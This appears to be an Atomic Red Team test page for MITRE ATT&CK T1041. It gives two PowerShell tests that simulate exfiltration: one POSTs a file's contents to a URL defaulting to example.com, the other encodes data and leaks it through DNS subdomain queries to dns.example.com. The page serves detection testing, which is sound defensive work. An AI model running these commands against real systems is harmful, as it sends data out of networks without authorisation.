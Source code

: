 # T1041 - Exfiltration Over C2 Channel
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1041)
<blockquote>Adversaries may steal data by exfiltrating it over an existing command and control channel. Stolen data is encoded into the normal communications channel using the same protocol as command and control communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 Data Exfiltration](#atomic-test-1---c2-data-exfiltration)

- [Atomic Test #2 - Text Based Data Exfiltration using DNS subdomains](#atomic-test-2---text-based-data-exfiltration-using-dns-subdomains)


<br/>

## Atomic Test #1 - C2 Data Exfiltration
Exfiltrates a file present on the victim machine to the C2 server.

**Supported Platforms:** Windows


**auto_generated_guid:** d1253f6e-c29b-49dc-b466-2147a6191932





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | example.com|
| filepath | The file which is being exfiltrated to the C2 Server. | path | $env:TEMP&#92;LineNumbers.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
if(-not (Test-Path #{filepath})){ 
  1..100 | ForEach-Object { Add-Content -Path #{filepath} -Value "This is line $_." }
}
[System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path #{filepath}
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
```






<br/>
<br/>

## Atomic Test #2 - Text Based Data Exfiltration using DNS subdomains
Simulates an adversary using DNS tunneling to exfiltrate data over a Command and Control (C2) channel.

**Supported Platforms:** Windows


**auto_generated_guid:** c9207f3e-213d-4cc7-ad2a-7697a7237df9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dns_server | DNS server IP address or domain name. | url | dns.example.com|
| exfiltrated_data | Data to be exfiltrated. | string | SecretDataToExfiltrate|
| chunk_size | Size of each DNS query chunk (in characters). | integer | 63|


#### Attack Commands: Run with `powershell`! 


```powershell
$dnsServer = "#{dns_server}"
$exfiltratedData = "#{exfiltrated_data}"
$chunkSize = #{chunk_size}

$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"

foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```






<br/>
